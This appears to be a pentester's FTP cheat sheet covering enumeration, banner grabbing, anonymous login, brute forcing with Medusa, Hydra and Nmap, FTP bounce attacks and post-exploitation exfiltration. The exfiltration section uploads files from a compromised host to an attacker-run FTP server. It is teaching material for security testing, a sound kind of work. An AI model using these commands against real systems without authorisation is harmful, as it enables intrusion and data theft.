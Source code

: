 ```yaml
---
layout: post
title: "FTP Overview"
---
```


# Basic Information

The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard protocol used to transfer files across a network.
By default, FTP listens on port `TCP/21`.

```shell-session
PORT   STATE SERVICE
21/tcp open  ftp
```

After gaining access to the FTP Service, we can search for sensitive or critical information.

We can download and upload files with commands the **GET**, **MGET** and **PUT**, **MPUT** commands. _Note that depending on FTP client, commands can vary._

# Enumeration

## Nmap

Standard `Nmap` flags `-sC` and `-sV` provide basic FTP enumeration.

The `-sC` default scripts includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) that checks if a FTP server allows anonymous logins and the version enumeration flag `-sV` provides information about FTP services, like the FTP banner.

```shell-session
sudo nmap -sC -sV -p 21 {IP}
```

More scipts can be found [here](https://nmap.org/nsedoc/scripts/)

```shell-session
nmap --script=ftp-anon,ftp-bounce,ftp-brute,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 {IP}
```

```shell-session
nmap --script=ftp-* -p 21 $ip
```

## Banner Grabbing

To quickly find the version we can grab a Banner.

```shell-session
nc -vv -p 21 {IP}
```

```shell-session
telnet {IP} 21
```

```shell-session
nmap -sV -script banner -p21 -Pn {IP}
```

Once the Banner discloses the the version running on FTP server, we can use `searchsploit` -> `<FTP name and version>` to hopefully get some already existing exploits.

# Connect

FTP:
```shell-session
ftp {IP} {PORT}
```

lftp:
```shell-session
lftp {IP}
```

Web Browser:
```shell-session
ftp://username:password@{IP}
```

## Anonymous Authentication

The protocol supports anonymous access, where users can log in with a `anonymous` username and no password.

```shell-session
ftp {IP}
                     
Connected to {IP}.
220 (vsFTPd 2.3.4)
Name ({IP}:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

# Attack Vectors

## Brute Forcing

If there is no anonymous authentication available, we can also try to brute-force the login for the FTP services.
There are many different tools to perform a brute-forcing attack.

With ==`Medusa`==, we can use the option ==`-u`== to specify a single user to target, or you can use the option ==`-U`== to provide a file with a list of usernames. The option ==`-P`== is for a file containing a list of passwords. We can use the option ==`-M`== and the protocol we are targeting (FTP) and the option ==`-h`== for the target hostname or IP address.

**Note:** Most applications today prevent brute-forcing attacks. A more effective method is Password Spraying.

### Brute Forcing with Medusa

```shell-session
medusa -u user -P /wordlists/rockyou.txt -h {IP} -M ftp 
```

* `-u` - specify username
* `-U` - list of usernames
* `-P` - list of passwords
* `-M` - protocol (FTP)
* `-h` - target hostname or IP address


### Brute Forcing with Hydra
```shell-session
hydra -l user -P /wordlists/rockyou.txt -f {IP} ftp
```

* `-l` - specify username
* `-L` - list of usernames
* `-P` - list of passwords
* `-f` - exit after the first found user/password pair
*      - specify service (FTP)

### Brute Forcing with Nmap

It is also possible to perform brute force on FTP with `Nmap` script:

```shell-session
nmap -p 21 --script ftp-brute {IP}
```

## FTP Bounce Attack

FTP Bounce Attack is a network attack that exploits the FTP protocol's ability to redirect traffic, masking the attack source. 
It uses an FTP server's **PORT** command to route data to a third party, making the attack seem to originate from the server.

[https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)
[FTP Bounce Attack](https://www.linux.org/threads/nmap-ftp-bounce-attack.4493/)

### Attack Execution

1. Find an FTP server that doesn't restrict the **PORT** command

2. Connect to the FTP server
```shell-session
ftp {IP}
```

3. Use **PORT** to redirect data to the target
```shell-session
quote PORT target_IP,port
```

4. Initiate a file transfer to the target
```shell-session
get sample-filename
```

This requests a file from the FTP server, which is then sent to the specified target, exploiting the bounce capability.

### Bounce Attack with Nmap

The `Nmap` `-b` flag can be used to perform an FTP bounce attack

```shell-session
nmap -b {FTP_SERVER_IP}:{PORT} {TARGET_NETWORK}
```

```shell-session
nmap -Pn -v  -p 80 -b anonymous:password@10.10.10.11 172.15.0.2
```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured, the server can become vulnerable.

### Bounce Attack with Metasploit

Metasploit offers module that leverage FTP bounce.

```shell-session
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS {FTP_IP}
set RPORT {FTP_PORT}
run
```

This scans through the vulnerable FTP server to find open ports on other systems.

## Post-Exploitation File Transfer

After getting a foothold in target system we usually want to transfer more files in, or exfiltrate data.
My favourite way is to set up FTP server.

```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

Connect to it on target system and transfer whatever is needed.

```powershell
C:\> ftp {MY_IP}
User: anonymous
Password: anonymous
ftp> binary
ftp> put sample_file.txt
```

~